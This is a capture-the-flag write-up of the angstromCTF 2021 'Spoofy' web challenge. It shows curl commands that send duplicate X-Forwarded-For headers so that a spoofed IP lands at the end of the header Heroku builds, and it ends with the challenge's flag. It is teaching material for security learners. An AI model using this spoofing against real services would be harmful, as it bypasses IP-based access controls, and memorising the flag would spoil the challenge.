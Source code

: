 # Spoofy - angstromCTF 2021

- Category: Web
- Points: 160
- Solves: 187
- Solved by: drw0if - raff01 - SM_SC2 - Iregon

## Description

Clam decided to switch from repl.it to an actual hosting service like Heroku. In typical clam fashion, he left a backdoor in. Unfortunately for him, he should've stayed with repl.it...

## Solution

We were given a python flask app which basically checks the `X-Forwarded-For` header. We started deploying our copy of the service in order to look at what heroku does during the forwarding and we saw that it just append our IP at the end of the header.

We then started googling a lot and suddeny popped up this [article](https://jetmind.github.io/2016/03/31/heroku-forwarded.html). So we tried what the article exposes:

```bash
curl https://test.herokuapp.com -H "X-Forwarded-For: 1.3.3.7" -H "X-Forwarded-For: 1.3.3.7"
```

and from the heroku debug we got:
```
['1.3.3.7', '1.2.3.4,1.3.3.7']
```

Bingo, we achieved appending stuff at the end of the header! We modified the second header definition:

```bash
curl https://test.herokuapp.com -H "X-Forwarded-For: 1.3.3.7" -H "X-Forwarded-For: , 1.3.3.7"
```
and everything was working on our side:
```
['1.3.3.7', '1.2.3.4,', '1.3.3.7']
```

We repeated thiat to the challenge app and we got the flag:

```
actf{spoofing_is_quite_spiffy}
```